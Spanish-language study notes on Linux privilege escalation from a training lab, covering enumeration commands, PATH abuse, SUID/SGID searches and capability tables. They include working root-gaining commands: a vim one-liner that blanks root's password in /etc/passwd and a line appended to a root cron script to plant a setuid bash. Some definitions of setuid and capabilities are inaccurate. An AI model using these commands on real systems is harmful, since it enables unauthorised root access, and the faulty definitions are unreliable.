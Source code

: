 # Linux Privilege Escalation

## Enumeration
- Generalmente vamos a empezar utilizando LinEnum, Linpeas, exploitSuggester, linux-exploit-suggester, etc.
- Hay varios puntos importantes a enumerar:
    - Version del OS
    - Version del Kernel
    - Servicios ejecutandose
- También podemos revisar `sudo -l` para ver que comandos podemos ejecutar con sudo.
- Podemos revisar los cronjobs `ls -la /etc/cron.daily/` y `ls -la /etc/cron.hourly/`
- Encontrar directorios con acceso a escritura: `find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null`
- Encontrar archivos con acceso a escritura: `find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null`
- Encontrar scripts: `find / -type f -name "*.sh" 2>/dev/null | grep -v "src\|snap\|share"`
- Corriendo servicios como root: `ps aux | grep root`

## Path Abuse
- Definición: PATH es una variable de entorno que contiene una lista de directorios a los que el sistema busca ejecutables.
    - Ejemplo: cuando hacemos `cat /etc/passwd` el sistema busca el ejecutable `cat` en `/bin/cat` en los directorios especificados en la variable PATH.
- Podemos chequear el contenido de la variable PATH con `echo $PATH`
- Crear un script o programa especificado en el PATH lo hace ejecutable en cualquier lugar del sistema.
- Ejemplo de abuso:
```bash
htb_student@NIX02:~$ touch ls
htb_student@NIX02:~$ echo 'echo "PATH ABUSE!!"' > ls
htb_student@NIX02:~$ chmod +x ls
htb_student@NIX02:~$ ls
PATH ABUSE!!
```

### Setuid permissions
- Definición: Setuid permissions permite a un proceso ejecutar comandos como el usuario que lo ejecuta. **Set User ID upon Execution (setuid)**
- El setuid bit aparece como una `s` en el lugar del bit de ejecución en el owner.
- `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`
### Setgid permissions
- Definición: Setgid permissions permite a un proceso ejecutar comandos como el grupo que lo ejecuta.
- `find / -uid 0 -perm -6000 -type f 2>/dev/null`

## Capabilities
- Definición: Capabilities permiten a un proceso ejecutar comandos como el usuario que lo ejecuta.
- Generalmente se usan para ejecutar ciertos comandos como root.
- setcap definición: setea capabilities para un programa.
    - ejemplo: podemos usar `cap_net_bind_service` para poder ejecutar el comando `nc -l -p 80` como root.
    - `sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic`
- `find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;`: este comando hace un chequeo de los binarios que tienen capabilities.

| Capacidad              | Descripción                                                                                              |
|------------------------|----------------------------------------------------------------------------------------------------------|
| `cap_sys_admin`        | Permite realizar acciones con privilegios administrativos, como modificar archivos del sistema o cambiar configuraciones del sistema. |
| `cap_sys_chroot`       | Permite cambiar el directorio raíz para el proceso actual, permitiéndole acceder a archivos y directorios que de otro modo serían inaccesibles. |
| `cap_sys_ptrace`       | Permite adjuntar y depurar otros procesos, potencialmente permitiendo acceder a información sensible o modificar el comportamiento de otros procesos. |
| `cap_sys_nice`         | Permite aumentar o disminuir la prioridad de los procesos, potencialmente permitiendo acceder a recursos que de otro modo estarían restringidos. |
| `cap_sys_time`         | Permite modificar el reloj del sistema, potencialmente permitiendo manipular marcas de tiempo o causar que otros procesos se comporten de manera inesperada. |
| `cap_sys_resource`     | Permite modificar los límites de recursos del sistema, como el número máximo de descriptores de archivos abiertos o la cantidad máxima de memoria que se puede asignar. |
| `cap_sys_module`       | Permite cargar y descargar módulos del kernel, potencialmente permitiendo modificar el comportamiento del sistema operativo o acceder a información sensible. |
| `cap_net_bind_service` | Permite enlazar a puertos de red, potencialmente permitiendo acceder a información sensible o realizar acciones no autorizadas. |


| Valor de Capacidad | Descripción                                                                                                      |
|--------------------|------------------------------------------------------------------------------------------------------------------|
| `=`                | Este valor establece la capacidad especificada para el ejecutable, pero no otorga ningún privilegio. Esto puede ser útil si queremos borrar una capacidad previamente establecida para el ejecutable. |
| `+ep`              | Este valor otorga los privilegios efectivos y permitidos para la capacidad especificada al ejecutable. Esto permite que el ejecutable realice las acciones que la capacidad permite, pero no le permite realizar acciones que no estén permitidas por la capacidad. |
| `+ei`              | Este valor otorga privilegios suficientes y heredables para la capacidad especificada al ejecutable. Esto permite que el ejecutable realice las acciones que la capacidad permite y que los procesos hijos generados por el ejecutable hereden la capacidad y realicen las mismas acciones. |
| `+p`               | Este valor otorga los privilegios permitidos para la capacidad especificada al ejecutable. Esto permite que el ejecutable realice las acciones que la capacidad permite, pero no le permite realizar acciones que no estén permitidas por la capacidad. Esto puede ser útil si queremos otorgar la capacidad al ejecutable pero evitar que herede la capacidad o que los procesos hijos la hereden. |

| Capacidad          | Descripción                                                                                                      |
|--------------------|------------------------------------------------------------------------------------------------------------------|
| `cap_setuid`       | Permite a un proceso establecer su ID de usuario efectivo, lo que puede usarse para obtener los privilegios de otro usuario, incluido el usuario root. |
| `cap_setgid`       | Permite establecer su ID de grupo efectivo, lo que puede usarse para obtener los privilegios de otro grupo, incluido el grupo root. |
| `cap_sys_admin`    | Esta capacidad proporciona una amplia gama de privilegios administrativos, incluyendo la capacidad de realizar muchas acciones reservadas para el usuario root, como modificar configuraciones del sistema y montar y desmontar sistemas de archivos. |
| `cap_dac_override` | Permite omitir las verificaciones de permisos de lectura, escritura y ejecución de archivos. |

### Enumerar capabilities
- `find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;`: este comando hace un chequeo de los binarios que tienen capabilities.
### Explotando capabilities
- Ejemplo: `/usr/bin/vim.basic /etc/passwd`
    - `echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd`
    - En este caso el binario vim.basic tiene la capacidad `cap_setuid` y `cap_setgid` por lo que podemos ejecutar el comando `id` como root..


### Abusar de cronjobs
- Primero  hay que encontrar directorios o archivos con acceso a escritura: `find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null`
- `cat /etc/crontab` para ver los cronjobs del sistema.
- `crontab -l -u root` para ver los cronjobs del usuario root.
- Ahora imaginemonos que hay un script corriendo como root, del cual tenemos acceso de escritura.
    - Podemos modificar el script para que ejecute un reverse shell haciendo un echo reverse shell + un shift right `>>` al script.
    - `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /etc/cron.daily/script.sh`
    - `/tmp/bash -p` => root shell